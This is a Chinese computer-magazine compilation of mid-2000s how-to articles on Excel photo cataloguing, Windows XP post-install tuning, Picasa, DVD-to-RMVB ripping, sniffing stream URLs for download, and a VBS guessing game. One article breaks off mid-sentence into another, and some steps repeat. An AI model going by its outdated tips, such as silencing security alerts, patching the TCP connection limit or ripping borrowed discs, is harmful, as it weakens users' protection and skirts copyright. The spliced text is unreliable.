第四步:如果还想为该组照片添加一些说明性文字，可右击相应单元格，然后在右键菜单中选择“插入批注”命令，将文字说明输入到批注的编辑框中，输入完成后，点击表格任意处即可，此时，该单元格的右上角就会多出一个红色的三角形标记，当鼠标滑过这一单元格时，这些说明文字会自动显示出来。

### 分类检索 方便快捷

在Excel中建立照片数据库后，就可以对它进行各种查询操作了，比如按Ctrl + F组合键调出查找对话框，输入照片名称或文件名(假如你设计的照片管家中有这些项目)，就能快速找到它的位置了。根据笔者个人使用经验，觉得用Excel管理照片，最方便的还是它的分类检索了。

第一步:在工作表中，选中“拍摄时间”、“拍摄地点”、“照片类别”及“使用设备”四个单元格，执行“数据→筛选→自动筛选”菜单命令，就可以看到在每个单元格的右下角分别出现了一个下拉按钮，点击这些下拉按钮可以显示出菜单选项，选择不同的选项就可以筛选出不同类型的照片了。

第二步:如果要筛选出风景照片，可点击“照片类别”单元格中的下拉按钮，在菜单中选择“风景”二字即可筛选出所有的风景照片。

第三步:如果要筛选某一时间段的照片，可以点击“拍摄时间”单元格中的下拉按钮，在菜单中选择“自定义”选项，在“自定义自动筛选方式”窗口中，通过在各个项目的下拉菜单中选择，分别定义“大于或等于”起始时间、“小于或等于”截止时间即可。此时应注意窗口中逻辑“与”和逻辑“或”的区别(“与”表示必须同时满足两个条件，“或”表示两个条件只要满足一个就可以了)。

当然，我们还可以对相片数据进行其他多种操作，比如用Excel的“自动求和”功能来计算照片的张数等，有兴趣的朋友可以自己多作尝试。

### 编辑软件 快速启动

数码相片的魅力就在于其后期处理，对于常用的编辑软件，我们也可以在“照片管家”工作表中为它们建立“超链接”来快速启动软件，它与前面设置超链接的方法基本相同，只不过在“插入超链接”窗口中，定位到的是软件的可执行文件上，比如是链接到“D:\Program Files\Adobe\Adobe Photoshop CS2\Photoshop.exe”上(如前图所示，“照片管家”工作表的右上方就是四个常用软件的“超链接”)。

如此全能的“管家”，你还等什么呢？赶紧将它请回家吧。

(安徽 房鹏)

## 链接预览专家AddPreview

在搜索引擎中搜索时，往往会找到成千上万个链接，如果一一打开链接查看，会花费大量时间。CFan今年第16期《用插件——搜索再省一步》一文介绍的Browster，它具有预览链接页面的功能，能即时预览各个搜索链接的页面略图，无需一一打开。最近我也找到一款名为AddPreview的IE插件，它也提供了类似功能，并且完全免费。

首先到http://www.snapfiles.com/get/addpreview.html下载AddPreview。安装后，重启IE(也提供有支持Firefox的插件)，登录http://www.google.com，随便搜索一些内容。你会发现每个搜索结果前多了一个该链接页面的缩略图。每个链接后面也多出了好几个按钮，分别单击它们，还能获得该网站简介、排名等信息。AddPreview支持Google、Yahoo和MSN的搜索结果预览。

(北京 一页)

## Word“改装”Blogger发布机

blogger.com(http://www.blogger.com)本是一个全球知名的博客站点，被Google收购之后它更是如虎添翼。现在，Blogger.com已经推出了中文界面站点，使它更加适合我们中国的用户使用了。前不久，Blogger.com还推出了一个Word插件，使你不用打开浏览器，直接在Word里编辑文档并可直接发布到你的网志中，用起来非常方便。

第一步:下载安装Blogger for Word插件(下载地址:http://dl.google.com/blogger/BloggerForWordSetup.exe)。

第二步:启动Word 2003，这时你会发现Word工具栏上多了四个按钮，我们只需用其中两个就足够了。第一次使用这个插件，需要进行相应的设置，操作非常简单:单击“Blogger Settings”按钮打开配置对话框(见图)，输入平时登录Blogger的用户名(Username)、密码(Password)。最好选中“Remember Username and Password(记住用户名及密码)”项，这样以后就不用再设置了。设置完毕，单击OK确定。

### 小提示

如果Word工具栏上没有显示出Blogger按钮，可在工具栏空白处右击，单击勾选“Blogger”项就可以显示它了。

第三步:像平时一样，在Word中输入编辑文档，编辑好之后再单击“Publish(发布)”按钮，在打开的发布窗口中设置这篇网志的标题，并选择你在Blogger.com上创建好的Blog名称，然后单击“Send(发送)”按钮。



第四步:这时将弹出显示“Your post was successfully published (发布成功)”字样的提示框，单击OK按钮退出即可。你也可以单击该提示框中的“Click here to view your post on the web.”链接，启动浏览器即时预览你刚刚发布的这篇网志。

(行者)

## 系统安装仅仅是个开始……

对于许多朋友来说，重装系统已经是件比较轻松的事情了，但装好系统并不意味着万事大吉，其实最重要的工作是系统安装后要做的，如何使系统性能达到最优化，使系统具有最好的稳定性和安全性，这些都是需要在系统安装以后来完成的重要工作，其实对于一个完整的系统重装过程来说，安装好操作系统仅仅是个开始，我们要做的事情还有很多……

本文是高手安装系统后的心得体会，相信会给大家一些启示。

火速链接
在阅读本文前，建议你查看2005年第13期《待从头,收拾旧河山——Windows重装大宝典》一文的介绍。

## 保证系统安全最重要

安装完系统后，我们并不能立刻上网打补丁，而是要做好一系列的准备工作才可以。

- **1. 安装网络防火墙**

现在刚安装完操作系统就感染病毒的情况越来越多，因此第一步要做的就是安装网络防火墙，虽然Windows XP SP2已经内置了防火墙，但如果有条件，还是建议你安装如ZoneAlarm、天网等专业的防火墙软件。这两款软件操作简单，而且效果出色。虽然还有许多更专业的防火墙，例如Outpost、Tiny、look'n'stop等，但笔者并不推荐给普通用户使用，它们的操作过于复杂，设置不当效果反而不好。

高手特别提示:在没有安装网络防火墙之前，不要将安装好的操作系统连接到网络上，这时非常容易感染病毒和被入侵，对于一些局域网接入的用户最好在安装系统过程中拔掉网线安装。

- **2. 杀毒演“双防”**

对于杀毒软件来说，很多人都有自己的选择，但无一例外，都是只能安装一个，不过我经过很多组合试用，发现江民及诺顿企业版可以同时安装在系统中。

这两款杀毒软件在资源占用上都相对较低，对系统操作影响较小，之间不相互冲突。而且一款为国产软件，一款为国外软件，可以做到国内国外病毒“双防”，在实际使用过程中，也的确体验到了两款杀毒软件共存的优势，避免了单一杀毒软件可能产生的“空当地带”。

高手特别提示:在安装杀毒软件后，建议立即在线升级病毒库和杀毒引擎，以做到最好的病毒查杀效果，这一点是经常容易被大家忽略的。

- **3. 稳定和安全是“补”出来的**

Windows补丁是增强系统稳定性和安全性的重要方式，一些使用Windows XP SP1的朋友甚至遇到过系统刚安装完毕，就出现由于冲击波攻击而导致倒计时关机的提示，在现在病毒主要依靠漏洞攻击的情况下，打补丁也成了“时尚”需求。

给系统打补丁最常用的方法就是通过Windows Update网站进行在线更新。在“开始”菜单中单击“Windows Update”即可在IE中打开http://Windowsupdate.microsoft.com网站，第一次访问Windows Update网站时，系统会弹出安全警告，这是由于更新补丁需要安装一个控件程序，用来扫描你的系统已经安装了哪些补丁，在这里单击“安装”按钮即可(见图1)。

如果你使用的是Windows XP SP1版本的操作系统，并且无法在线更新补丁，那么有两个补丁是必须安装的，那就是冲击波和震荡波病毒补丁，这两个补丁均可单独下载到。

高手特别提示:在通过Windows Update安装补丁程序后，在Windows目录下会发现一些类似于“$NtUninstallQ******$”的文件夹，文件夹中保存的是相应补丁的卸载程序，如果不准备卸载任何补丁，也可以直接删除这些文件夹。



## 驱动更新，给硬件加加油

在安装完Windows XP系统后，通常已经自动安装好硬件驱动，但很多朋友是直接用系统内置的驱动，或是直接使用随硬件附送的老版本驱动，建议大家随时更新驱动程序。最新的驱动程序可以从http://www.mydrivers.com/index.htm下载到。

另外，在安装USB设备驱动程序时，建议先安装驱动程序，然后再插入USB设备，这样可以避免一些USB设备安装不成功的情况。

高手特别提示:在所有硬件驱动中，显卡的驱动比较特殊，并不是最新版本就适合你的显卡，比如你用的是GeForce MX系列，显然不适合用最新的驱动程序。不同显卡适合的驱动建议你参考http://www.newhua.com/cfan/200522/video.txt。

## 系统设置必做九条

- **1. 关闭默认共享**

Windows XP在安装后，会自动创建隐藏共享，这些默认共享用一般方法是无法取消的，需要用到修改注册表的方法：

打开注册表，定位至[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]主键，双击右侧的“restrictanonymous”键值，并将其数据修改为“1”，就能禁止IPC$。或打开“控制面板→管理工具→本地安全策略→本地策略→安全选项”，在右侧双击“网络访问: 不允许SAM账户和共享的匿名枚举”，将其设置为“已启用”(见图2)。



接下来打开[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters]主键，在右侧新建一个DWORD类型的键“AutoShareWks”，将其键值设置为“0”即可禁止默认的隐藏磁盘共享。

高手特别提示:如果你的电脑是单机操作，没有任何共享的要求，那么我们还可以彻底杜绝这些共享隐患，打开“控制面板→管理工具→服务”，找到名为“Server”的服务，双击打开“属性”，在“启动类型”中选择“手动”，并单击“停止”按钮结束该服务即可。

```
打开注册表，定位至[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa]主键，双击右侧的“restrictanonymous”键值，并将其数据修改为“1”，就能禁止IPC$。或打开“控制面板→管理工具→本地安全策略→本地策略→安全选项”，在右侧双击“网络访问: 不允许SAM账户和共享的匿名枚举”，将其设置为“已启用”
```

```
接下来打开[HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\lanmanserver\parameters]主键，在右侧新建一个DWORD类型的键“AutoShareWks”，将其键值设置为“0”即可禁止默认的隐藏磁盘共享。
```

- **2. 下载提速，破解TCP/IP的并发连接数**

这个问题主要是解决BT下载问题，使用EvID4226Patch(下载地址:http://www.newhua.com/cfan/200519/EvID4226Patch.zip)就可解决。具体的方法可以参考2005年第19期《解决TCP连接数引起的BT故障》一文。

- **3. 将文字服务栏“搬”回系统托盘**

Windows XP系统默认的文字服务栏是显示在系统托盘上面的，有时会影响正常的程序操作，还是让它“搬”回任务栏比较合适。从http://www.onlinedown.net/soft/37684.htm下载“输入法设置工具”，在弹出窗口中选择“输入法指示器”即可。

- **4. 系统还原，我只要C盘**

关于系统还原，许多人都推荐关闭所有分区的系统还原，这里笔者并不赞同，对于大部分的普通用户来说，系统还原可以说是“救命稻草”，虽然对所有分区都设置系统还原确实是没有必要的，但对系统分区C盘设置系统还原还是非常必要的: 右键单击“我的电脑”选择“属性”，打开“系统还原”选项卡，分别选中除C盘以外的其他分区盘符，单击“设置”按钮，选中“关闭这个驱动器上的系统还原”选项后单击“确定”按钮即可。这样设置以后，一旦系统不稳定，就可以利用系统还原工具快速恢复C盘上的系统。

- **5. 文件夹选项优化别忘做**

在资源管理器中单击菜单“工具→文件夹选项”，单击“查看”标签，这里建议选中“显示所有文件和文件夹”选项，这样可以显示出所有的隐藏文件，在分析木马等方面比较有用。同时一定要取消“隐藏已经文件类型的扩展名”选项，一些木马程序就经常利用系统的这个漏洞，通过类似“*.TXT.EXE”形式的双扩展名来进行文件名欺骗，达到执行木马程序的目的。另外，建议一并取消“不缓存缩略图”、“使用简单文件共享”选项以方便使用。

- **6. 拒绝分组相似任务栏按钮**

Windows XP默认会将相似的任务栏按钮自动编组，不过这个所谓的方便设计却非常让人讨厌，要解决这个问题只要右键单击开始菜单选择“属性”，在“任务栏”选项卡中取消“分组相似任务栏按钮”选项的勾选即可。

- **7. 让系统托盘不再显示“Windows安全警报”**

当你关闭Windows防火墙、未安装防火墙软件、未启用自动更新等情况下，Windows XP系统的安全警报功能都会在系统托盘区弹出提示气泡窗口，经常这样也有点让人烦，我们可以打开“控制面板→安全中心”，单击“更改‘安全中心’通知我的方式”，然后取消勾选“防火墙”、“自动更新”、“病毒保护”即可。

- **8. 用Upiea工具禁止恶意ActiveX**

禁止恶意ActiveX控件是防范网页攻击的最好方法，使用IE插件管理专家Upiea可以免疫659个ActiveX插件，下载地址为http://www.onlinedown.net/soft/35733.htm。软件运行后，单击“插件免疫”，在右边的免疫列表中选中要免疫的插件名称即可，如果你不知道哪些应该免疫，直接单击“推荐”按钮，软件就会自动帮你选择常见的恶意插件进行免疫，最后单击“应用”按钮即可。

- **9. 去除烦人的Windows Messenger及ZIP压缩格式支持**

有了MSN Messenger还要Windows Messenger做什么? 在“运行”中输入“rundll32 advpack.dll,LaunchINFSection %windir%\inf\msmsgs.inf,blc.remove”(不含引号)，就可以卸载它了。

Windows XP系统内置对ZIP压缩格式的支持功能，但在使用中却有诸多不便之处，建议取消。打开“开始”菜单在“运行”栏中，输入“regsvr32 /u zipfldr.dll”(不含引号)即可。

## 软件安装，宜少不宜滥

软件安装也是系统安装后的重要步骤，每个人习惯使用的软件也都不一样，所以这里我也不再多做介绍，只将下面两个比较特殊的组合介绍给大家，供大家参考。

- **1. 打造无所不“播”的系统**

推荐编/解码器:阿飞的音频视频工具包# 谁说自造软件难？——轻松打造个性工具

在办公室里我和同事们共用一台电脑，由于机器安装的软件比较多，且常有人把桌面快捷方式和好不容易找到的网站收藏夹搞乱，比较不方便，于是就想做一个工具栏，希望它能和系统一起启动，启动后出现在系统托盘中，在屏幕右侧有一个工具条，上面列出常用的程序文件和常访问的网站等，由于我不会什么编程语言，而且感觉实现起来也不在我的能力范围，在经过比较后发现，使用AutoPlay Media Studio 6.0（简称AMS）这个工具很容易的就能实现这一切。我想你看完本文一定会做出更漂亮的程序来。而且制作出的软件完全绿色，在光盘和闪存盘上也可以运行。

## AutoPlay Media Studio小档案

- 软件版本：6.0汉化版
- 软件大小：33MB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://www.newhua.com/cfan/200522/ams60_cn.rar

下面我们就来制作一个简单工具栏。如果打开程序后，出现PTxSCP.ocx错误，可以在“运行”框中输入“regsvr32 C:\Windows\system32\PTxSCP.ocx”（不含引号），解决问题。

第一步：打开程序，选择“创建一个新的方案文档”，然后选“Blank Project”（空白文档）按钮。
第二步：在弹出的页面上右击，选择“属性”。

在“背景”项下选择“背景图像”的“浏览”按钮，任意选择一张纹理图（见图1）。

第三步：用工具栏上的“插入新图像对象”按钮，插入你预先准备好的图标（推荐使用40×40的JPG文件），然后再用“插入新标签对象”按钮（见图2），插入文字。再选中所有图标及说明文字，右击，选择“对齐与分布→水平居中对齐”（见图3）。

**小提示**
右击按钮图片，选择“属性”，在弹出窗口“当前设置”标签下对按钮进行设置，比如一些有白色背景的图片，可以勾选“创建透明色”，让按钮变得更漂亮。同时在“属性”标签下按照图4所示进行设置。

第四步：选择菜单中的“方案→当前设置”，打开“方案设定”对话框，在这里进行如下设置，在“风格”中选择“平面”，这样做出来的界面会无边框、无标题栏，有工具栏的效果；在“任务栏”中选择“系统托盘”，这样在程序启动后，系统托盘中会显示软件图标；“总在最前”建议不要勾选，因为这个位置正好是一般窗口最大化、最小化及关闭的按钮位置，选中反而对别的窗口操作造成影响；“活动”是指窗口是否可以拖动，一般不选（见图5），其他的选项使用默认即可。

第五步：现在开始设置工具栏显示的位置。在页面上右击，选择“属性”，点击“脚本”标签下的“On Show”标签，在下面的文本框中输入下面的内容（见图6）。

```
screen_info = System.GetDisplayInfo();
Window.SetSize(Application.GetWndHandle(this), screen_info.Width-974, screen_info.Height);
Window.SetPos(Application.GetWndHandle(this), 974, -20);
```

第一句为得到屏幕分辨率；第二句为软件窗口大小，我的屏幕是800×600的像素，所以减去740（1024×768此处设置为974），宽约50多点，高600，即刚刚设置的软件宽度；第三句表示软件窗口在屏幕左上方的位置（1024×768要将740改为974），从数据可以看到，由于采用了屏幕的高为菜单栏的高，这样在工具栏启动后，会把系统托盘挡住，所以由位置上向上偏移20个像素。

第六步：现在按下F5，预览一下窗口的位置是否合适，如果位置不好，右击系统托盘图标，选择“Exit”退出，修改第五步中的参数进行调整。

第七步：现在为每个按钮添加功能，让它们具有打开网址或程序的功能。右击按钮图标，选择“属性”，点击“快速动作”标签，从“运行动作”下拉菜单中选择“运行程序”，通过“运行文件”下的“浏览”按钮，设置运行的程序（见图7）。如果从“运行动作”下拉菜单中选择“网址”，然后在“网站”中输入网址，这样按钮就可以打开常用网址了。

第八步：全部完成后按F7键，打开“发布方案向导”按钮，在弹出窗口中选择“适用于网页和邮箱，压缩为可执行文件”，设置好保存位置，根据需要勾选“显示进度条窗口”，“确定”完成工具条的制作。现在运行程序，看看效果如何吧。这样，就完成了这个个性化的工具栏的创建。

（江苏 马进军）

# 揭秘！BT 电影来源完全揭秘 — 快速将 DVD 转成 RMVB 格式

不少人都会好奇，BT 上那些 RMVB 电影资源是从何而来呢？从好友那里借了一张 DVD，现在要还了，想要把它备份到硬盘上，为了减少空间占用转成 RMVB 格式，应该怎样操作呢？

DVD 转为 RMVB 格式是很多人需要用到的功能，只是网上流传的方法大多复杂，而下面要介绍的这个方法只用一款免费软件就能轻松完成转换了，而且它还可以轻松解决很多软件中出现的字幕问题。

## FilmShrink小档案

- 软件版本：0.3.3.129 Beta
- 软件大小：5.5MB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://filmshrink.sourceforge.net/dl.html

第一步：将 DVD 放入光驱，然后打开 FilmShrink。

第二步：点击按钮栏上第四个按钮 “New Job”（新任务），新建一个任务。在弹出窗口中的 “Name” 栏上填好任务名，在 “Destination”（目的文件）中设置好文件保存目录，在 “DVD source”（DVD 源）处设置好 DVD 光盘所在驱动器，完成后，点击 “Next” 按钮（见图1）。

第三步：这时软件开始对 DVD 进行分析，大约需要 30~40 分钟，期间并不影响你对电脑进行其他操作。分析完成后，就会列出 DVD 中的所有视频文件，并且列出了时间，选择需要转换的文件，点击 “Next” 按钮，进入下一步（见图2）。

第四步：现在进入设置的关键，对转换后的视频进行设置。如无特殊要求，一般使用默认值即可（见图3）。

1. “General”（常规）标签：一般，我们只要在 “Volume options”（卷设置）的下拉菜单中选择生成文件的大小，选择 “Custom”（自定义）可随意设置生成文件的尺寸。设置不同的尺寸，“Encoding mode”（编码模式）下就会自动改变编码设置，“Fixed size”（固定尺寸，生成 RM 格式），“Average bitrate”（平均码率，生成 RMVB 格式）。
2. “Video”（视频）标签：这里对生成的视频重设尺寸（“Resize” 项），或是对画面进行切割（“Crop” 项）。
3. “Audio”（音频）标签：这里对生成的音频进行设置，如果原片声音较小，可以勾选 “Gain” 项下的 “Enable”，然后移动滑块，调整音量。
4. “Subtitles”（字幕）标签：在这里设置转换后 RMVB 格式的内嵌字幕，勾选 “Enable subtitles”，并从 “Language”（语言）下选择 “Chinese”（中文）。
5. “Summary”（摘要）标签：在此项下设置 RMVB 文件信息，可根据需要填写。

全部完成后，点击 “Finish” 按钮，任务添加完成，回到主窗口。

第五步：回到主窗口，选择刚刚建好的任务，点击工具栏左侧的第一个按钮 “Encode”（编码）按钮，这时软件就会开始转换，根据所选的影片大小不同，所需的时间也不同。如果转换的时间过长，可以勾选主窗口右下角的 “Turn off computer when done...”（结束后关闭电脑），同时为了加快速度，可以在 “Encoder priority”（编码器优先级）下拉菜单中选择 “Realtime”（实时）（见图4）。

小编有话说：由于这是一款英文软件，对中文支持不好，因此建议大家在转换时，不要使用中文文件名、文件夹，编码信息里也不要有中文。

# 有了 Picasa，图片管理起来轻松

前段时间 Google 推了 Picasa 的最新版本，它集成了图片索引、浏览、简单处理、刻录、BLOG 等功能，非常适合日常使用。新版本支持了中文文件及中文文件夹，这也为我们的使用带来了便利。

## Picasa小档案

- 软件版本：2.1
- 软件大小：4033KB
- 软件性质：免费软件
- 适用平台：Windows 9X/2000/XP
- 下载地址：http://nj.onlinedown.net/soft/33155.htm

第一次启动 Picasa，会出现 “全面扫描计算机查找图片” 及 “仅扫描‘我的文档’、‘图片收藏’和‘桌面’” 两个选项，根据你的需要，进行选择，点击 “继续”，Picasa 开始扫描系统中的图片及视频。

### 1. 高手的 Picasa 设置方法

虽说 Picasa 的功能强大，但如果让 Picasa 管理所有硬盘的图片，会很乱，因此高手通常只会让软件管理一些经常更新的照片目录、壁纸保存目录等等。

第一步：在第一次启动 Picasa 后，选择 “仅扫描‘我的文档’、‘图片收藏’和‘桌面’” 项，进入 Picasa 主窗口。

第二步：选择菜单中的 “工具→选项”，在 “文件类型” 标签下勾选 “.GIF”，同时去除 “电影” 及 “Quicktime 电影” 的勾选。

第三步：选择 “工具→文件夹管理器” 菜单项，在弹出窗口左侧选择要删除的文件夹，将 “桌面”、“图片收藏” 及 “我的文档” 全部设置为 “从 Picasa 删除” 项，“确定”（见图1），回到 Picasa 主窗口。

第四步：选择菜单中的 “文件→将文件夹添加到 Picasa” 项，再次弹出窗口，在左侧窗格中定位至照片保存文件夹，然后在右侧选择 “总是扫描”，点击 “确定”。

这样就完成了所有设置，每次有新照片复制到文件夹中，都可以在 Picasa 中看到了。

### 2. 快速搜索照片

像 Google 一样，Picasa 的搜索照片功能既快、又准确，它可以根据照片的时间、关键字、目录、文件名、是否加星标及是否有视频电影进行搜索。比如，我们要从全部照片中搜索有“我”的标星照片，方法很简单：在软件主窗口右上角，点击倒三角按钮（见图2）。在搜索栏中输入 “我”（不含引号），同时将 “日期范围” 滑块滑至最左侧 “全部”，点击 “已加星标” 按钮，这样就可以找到所需的图片了。

### 3. 为照片建立标签分类

有时为了统一管理，我们要打破文件夹的限制，将不同文件夹放在一起进行处理，ACDSee 解决这个问题的方案是“图片篮子”，在 Picasa 中是使用“标签”完成这一操作的。

第一步：先选择一部图片，然后在主窗口下侧图片任务栏中的“保留”按钮，将当前选择的照片保留在左下的预览窗口中。

第二步：点击“标签”按钮，选择“新建标签”。

第三步：在窗口左侧窗格中，我们就可以选择“标签”下的内容进行处理了（见图3）。

### 4. 照片处理轻轻松松

照片已经整理到一起了，当然就要处理了，双击照片，打开照片修改窗口，我们就可以对照片进行处理了。Picasa 提供了剪裁，旋转（拉直），去红眼等功能（见图4）。照片调整后，还可以按下 Ctrl+Alt，全屏显示照片，查看修改细节。

**小提示**
★如果需要批量处理多张照片，可以在软件主窗口中选择好照片，然后点击“图片→批量修改”菜单项，进行批量修改。
★Picasa在处理图片时，不会对原图进行修改，只有使用图片任务栏上的“导出”按钮后（见图4），才能将照片的修改导出。我们可以随时右击图片，选择“撤销所有修改”项即可。

### 5. Picasa的特效功能

Picasa 除了上面这些功能外，还有很多特别功能。在选择好图片后，点击“创建”菜单项，在下面，我们就可以选择创建屏保、电影等。其中比较有特色的是“图片拼贴”及“海报”功能，前者可以将多张照片合为一张拼贴照片，后者将一张图片根据用户指定的尺寸分割为数个部分，每个部分占用一张纸，打印后，拼合起来就为一张全尺寸海报。

**小提示**
Picasa还有创建“礼品CD”功能，但只能在电脑上播放，而且功能不多，这里就不再多做介绍。

### 6. “绿化”Picasa

Picasa 其实是一款绿色软件，只是如果恢复系统后，每次打开Picasa都要重新扫描，比较麻烦，其实Picasa的扫描数据都保存在 C:\Documents and Settings\用户名\Local Settings\Application Data\Google\Picasa2\DB 目录下，我们只要将 albums.db、albumxml.db、bigthumbs.db、index-albums.db、previews.db、index-albumxml.db、index-bigthumbs.db、index-previews.db、index-thumbs.db 几个文件复制出来，下次重装系统时，只要将这些文件复制到此处，就不需要再进行扫描了。

如果你觉得Picasa体积过大，而一些功能又用处不大，那么你不如删除Picasa安装目录中的下列文件。

| 文件夹或文件名 | 功能 |
|---|---|
| Setup.exe | 安装文件 |
| Uninstall.exe | 卸载程序 |
| PicasaUpdate.exe | 升级程序 |
| PicasaMediaDetector.exe | 媒体检测程序，如果不用相机的导入功能，可以删除 |
| Cdautorun | 创建“礼品CD”功能 |
| Plugins | 插件 |
| i18n | 多语言文件 |
| Update | 升级程序 |
| Web | 制作缩略网页时用到的模板 |
| Runtime | 删除除splashlogo_zh-CN.jpg、slogo.jpg以外的所有JPG文件 |

这样Picasa就已经精简完成了。

（无缺）

# 突破万难 无所不“下”

网上经常有很多在线视频或漂亮的 Flash，但经过加密的网址，就没办法下载了，比如，http://sports.sina.com.cn/n/2005-10-29/20341850448.shtml里的视频如何下载呢？用查看源代码的方法？经过JAVA加密的网址让你无法找到下载地址，那么高手如何解决这个问题呢？

## 浏览器下载法

如果你用的是 Maxthon、GreenBrowser（简称GB）或 MyIE2 等多窗口浏览器，只需要使用“ViewPage”插件，不必使用任何第三方工具，就能下载到这些资源。以 Maxthon 为例。

第一步：从 http://www.newhua.com/cfan/200522/maxthonvp.rar 下载“ViewPage”插件，解压缩至 Maxthon 安装文件夹下的 Plugin 子文件夹中。

**小提示**
一般多窗口浏览器分为标准版及豪华版，后者通常已经自带“ViewPage”插件，可直接使用，为了照顾标准版用户，我们从插件的安装开始介绍。GB 版的“ViewPage”插件下载地址为 http://www.newhua.com/cfan/200522/gbvp.rar，MyIE2版的“ViewPage”插件下载地址为 http://www.newhua.com/cfan/200522/myie2vp.rar。

第二步：打开 Maxthon，就会显示出插件安装窗口，点击“确定”（见图1）。

第三步：打开要下载视频或Flash的网站，在扩展插件栏中点击“ViewPage”按钮（见图2）。在新弹出的页面中选择“媒体”标签，就可以在下面看到流媒体视频的真实链接了。同理，如果点击“Flash”标签，则会显示出该页面中所有的Flash链接，非常方便。

## 用第三方工具完成操作

如果你平常不使用上面介绍的这些浏览器，也没关系，我们可以用 Project URL Snooper 帮你解决问题。它是一款网络信息侦测（嗅探）软件，通过跟踪网卡或调制解调器的数据信息，找到所需要的网址，其中自然也包括了流媒体。

## Project URL Snooper小档案

- 软件版本：1.1 Beta 1 汉化版
- 软件大小：1465KB
- 软件性质：免费软件
- 适用平台：Windows 9x/2000/XP
- 下载地址：http://nj.onlinedown.net/soft/33298.htm

将软件下载后，进行安装，要注意安装 Project URL Snooper后，安装程序还会自动安装 WinPcap 驱动程序。如果安装失败，可进入 Project URL Snooper 的安装目录，运行 WinPcap23.exe 进行安装，然后重新启动电脑，之后就可以使用软件了。

第一步：打开软件，点击“常规选项”标签，在“适配器”下拉菜单中选择网卡（见图3）。

第二步：点击“搜索”标签下的“侦测网络”，这时软件开始监测网卡数据包，同时勾选“隐藏非媒体流地址”，我们用浏览器打开所要下载的网址。此时尽量不要使用其他连接网络的软件工具。

第三步：只要一会儿，软件就会找到流媒体的下载地址，右击地址后选择“复制选定地址到剪贴板”项（见图4）。然后打开下载软件，下载即可。

**小提示**
部分网址如果不能下载，可以将网址中的mms://修改为http://即可。

只要有了这两招，我们就没有什么下不来的链接了。

小编有话说：不少朋友想从网站上下载彩铃，不如试试本文提供的两种方法，相信聪明的你已经想到具体的操作方法了。

（myt）2004年第6期《菜鸟也来编程序——Windows脚本一日通》受到了读者的普遍欢迎，为了让大家更深入地了解VBS的神奇功效，这期我们再为大家介绍一下如何用VBS脚本制作小游戏。并且学习一下编程中必然会涉及的“变量”知识。

## 我和电脑玩猜拳

```vbscript
Dim MyStr, YourVar, MyVar
Randomize
Do
MyStr = "请输入一个代表锤子、剪刀、布的数字: " & vbCrLf & vbCrLf & "1 == 锤子" & vbCrLf & "2 == 剪刀" & vbCrLf & "3 == 布" & vbCrLf & "0 == 结束"
YourVar = InputBox(MyStr, "锤子、剪刀、布小游戏")
If YourVar = "1" Or YourVar = "2" Or YourVar = "3" Then
MyVar = Int((3 * Rnd) + 1)
MyStr = "你出的是: "
Select Case YourVar
Case 1 MyStr = MyStr + "锤子"
Case 2 MyStr = MyStr + "剪刀"
Case 3 MyStr = MyStr + "布"
End Select
MyStr = MyStr & vbCrLf & "计算机出的是: "
Select Case MyVar
Case 1 MyStr = MyStr + "锤子"
Case 2 MyStr = MyStr + "剪刀"
Case 3 MyStr = MyStr + "布"
End Select
MyStr = MyStr & vbCrLf & vbCrLf
If MyVar - YourVar = 0 Then
MyStr = MyStr + "平手! 再来。"
ElseIf MyVar - YourVar = 1 Or MyVar - YourVar = -2 Then
MyStr = MyStr + "恭喜你! 赢了。"
Else
MyStr = MyStr + "你输了。加油!"
End If
MsgBox MyStr, 64, "锤子、剪刀、布小游戏"
End If
Loop Until YourVar = "0"
```

## 2.通透理解变量

变量是VBS脚本编程的重要概念，上面脚本中MyStr、YourVar和MyVar就是变量。

- 变量(variable): 通俗地理解，内存就像一个大仓库，它有很多排很多间排列整齐的库房，每间库房都有固定编号（内存地址），变量就是这个大仓库中一间被起了名字用来保存货物（信息）的库房（内存空间）。程序（脚本）就像一个运输车队，每次运货（运行）前需要向仓管员（系统）申请一间或多间库房来保存货物（信息），而且还要给这些库房逐一起个名字以便运输车辆（过程、函数、方法或语句）运进（赋值）、调出（引用）货物，于是仓管员就为这些申请分配了库房。比如这个实例中仓管员就分配了3个库房（内存空间），而且它们分别被命名为MyStr、YourVar和MyVar（变量名）。那为什么这些名词中还有一个“变”字呢？这是因为运输车队（程序）在运货（运行）过程中，这些库房保存的货物（信息）发生了变化，就像库房里的货物运进调出，下一辆车就会改变库房的货物量。仓管员（系统）只负责登记这些已分配的库房编号（内存地址），如第几栋第几间，不会让别的运输车队（程序）重复申请；而运输车队的车辆只要使用（引用）自己申请的库房的名字（变量名），如日用品、食品、药品，而根本不必管它所运进调出的货物到底保存在第几栋第几间。例如，一辆车只要叫“我要调‘药品’库房的货物”，就可以将“药品”库房的货物运走。当运输车队结束一次运输任务（程序结束），这些库房就被仓管员收回（释放），重新分配给下一个申请的运输车队。

- 声明变量(declare variable): 理解了上面变量的概念，声明变量也就容易理解多了，就是运输车队（程序）向仓管员（系统）申请（声明）需要几个库房并起好了名字（变量名），仓管员为它们分配足够的库房（内存空间）。声明变量的一种方式是使用Dim语句、Public语句和Private语句在脚本中显式声明变量。声明多个变量时，使用逗号分隔变量。例如本例中的Dim MyStr、YourVar和MyVar。另一种方式是通过在脚本中不声明就直接使用变量名（被称作隐式声明变量）。这并不是一个好习惯，因为这样有时会由于变量名拼错而导致运行脚本时出现意外的结果。

- 给变量赋值(assign value): 给变量赋值是一种表达式：变量在表达式左边，要赋的值在表达式右边。例如MyVar = 200。这个应该很好理解，运输车队有一辆车（过程、函数、方法或语句）把1吨的日用品（数据）保存到（赋值给）“日用品”（变量名）这个库房，另一辆车把1.5吨食品保存到“食品”（变量名）这个库房，这个过程就叫做给变量赋值。

(张宗润)

## 开源免费的杀毒软件ClamWin

